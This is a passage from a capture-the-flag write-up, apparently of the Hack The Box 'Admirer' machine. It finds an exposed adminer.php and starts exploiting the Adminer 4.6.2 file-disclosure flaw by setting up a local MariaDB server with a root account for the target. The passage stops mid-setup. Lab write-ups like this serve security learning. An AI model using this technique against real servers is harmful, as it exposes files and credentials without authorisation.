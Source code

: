 {% highlight raw %}
Adminer (formerly phpMinAdmin) is a full-featured database management tool written in PHP. Conversely to phpMyAdmin, it consist of a single file ready to deploy to the target server. Adminer is available for MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, Firebird, SimpleDB, Elasticsearch and MongoDB.
...
Usage: Just put the file adminer.css alongside adminer.php.
{% endhighlight %}

The usage tells us that there is a `adminer.php`, so lets see if it's there.

`http://admirer.htb/utility-scripts/adminer.php`:

![](/assets/images/admirer5.png)

# Exploitation (1)

We found our next lead! I tested out the credentials we found but they were incorrect :( Maybe the files we found were outdated? Searching online, this version of `Adminer` (`4.6.2`) has a [vulnerability](https://www.acunetix.com/vulnerabilities/web/adminer-4-6-2-file-disclosure-vulnerability/) which allows us to read files on the web server. I followed this [guide](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool) which allowed to me read `index.php` on the web server.

First, we will need a `SQL` server. Fortunately, Kali Linux already comes with `MariaDB` installed so all we have to do is start it.

{% highlight bash %}
$ systemctl start mysql
{% endhighlight %}

Next, we will need to create a new account and assign privileges to it.
{% highlight bash %}
$ mysql
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 39
Server version: 10.3.20-MariaDB-1 Debian buildd-unstable

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [(none)]> CREATE USER 'root'@'admirer.htb' IDENTIFIED BY 'toor';